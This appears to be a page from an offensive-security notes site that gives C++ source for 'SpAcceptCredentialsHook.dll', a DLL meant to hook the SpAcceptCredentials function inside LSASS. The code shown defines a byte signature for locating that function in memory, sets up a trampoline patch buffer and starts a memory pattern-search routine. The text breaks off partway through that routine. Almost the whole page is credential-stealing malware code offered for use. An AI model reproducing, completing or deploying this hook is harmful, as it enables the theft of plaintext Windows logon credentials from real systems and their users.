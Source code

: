 ![](<../../.gitbook/assets/image (484).png>)

## Code

{% code title="SpAcceptCredentialsHook.dll" %}
```cpp
#include "stdafx.h"
#include <iostream>
#include <Windows.h>
#define SECURITY_WIN32
#include <Sspi.h>
#include <ntsecapi.h>
#include <ntsecpkg.h>

using _SpAcceptCredentials = NTSTATUS(NTAPI *)(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials);
char startOfPatternSpAccecptedCredentials[] = { 0x48, 0x83, 0xec, 0x20, 0x49, 0x8b, 0xd9, 0x49, 0x8b, 0xf8, 0x8b, 0xf1, 0x48 };
char bytesToPatchSpAccecptedCredentials[12] = { 0x48, 0xb8 };
PVOID patternStartAddressOfSpAccecptedCredentials = NULL;
PVOID addressOfSpAcceptCredentials = NULL;
char bytesToRestoreSpAccecptedCredentials[12] = { 0 };
void installSpAccecptedCredentialsHook();

PVOID GetPatternMemoryAddress(char *startAddress, char *pattern, SIZE_T patternSize, SIZE_T searchBytes)
{
	unsigned int index = 0;
	PVOID patternAddress = NULL;
	char
		*patternByte = 0,
		*memoryByte = 0;
	do
	{
		if (startAddress[index] == pattern[0])
		{
			for (size_t i = 1; i < patternSize; i++)
			{
				*(char *)&patternByte = pattern[i];
				*(char *)&memoryByte = startAddress[index + i];

				if (patternByte != memoryByte)
				{
					break;
				}

				if (i == patternSize - 1)
				{
					patternAddress = (LPVOID)(&startAddress[index]);
					return patternAddress;
				}
```